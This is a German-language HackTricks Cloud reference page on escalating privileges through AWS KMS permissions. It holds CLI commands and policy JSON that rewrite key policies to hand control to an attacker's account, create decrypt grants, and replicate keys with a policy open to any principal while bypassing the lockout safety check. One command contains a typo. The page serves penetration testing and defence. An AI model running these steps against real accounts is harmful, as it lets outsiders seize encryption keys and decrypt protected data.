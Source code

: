 # AWS - KMS Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## KMS

Für weitere Informationen zu KMS siehe:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Mit diesen Berechtigungen ist es möglich, **die Zugriffsberechtigungen für den Schlüssel zu ändern**, sodass er von anderen Konten oder sogar von jedem verwendet werden kann:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Es **erlaubt einem Principal, einen KMS-Schlüssel zu verwenden:**
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Ein Grant kann nur bestimmte Arten von Operationen erlauben: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Beachten Sie, dass es einige Minuten dauern kann, bis KMS **dem Benutzer erlaubt, den Schlüssel zu verwenden, nachdem der Grant erstellt wurde**. Sobald diese Zeit vergangen ist, kann der Principal den KMS-Schlüssel verwenden, ohne etwas anzugeben.\
Wenn es jedoch erforderlich ist, den Grant sofort zu verwenden, [verwenden Sie ein Grant-Token](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (siehe den folgenden Code).\
Für [**weitere Informationen lesen Sie dies**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Beachten Sie, dass es möglich ist, die Berechtigungen von Schlüsseln mit aufzulisten:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Mit diesen Berechtigungen ist es möglich, einen KMS-Schlüssel, der für mehrere Regionen aktiviert ist, in einer anderen Region mit einer anderen Richtlinie zu replizieren.

Ein Angreifer könnte dies ausnutzen, um seine Berechtigungen für den Schlüssel zu erhalten und ihn zu verwenden.

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Diese Berechtigung erlaubt die Verwendung eines Schlüssels, um Informationen zu entschlüsseln.\
Für weitere Informationen siehe:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
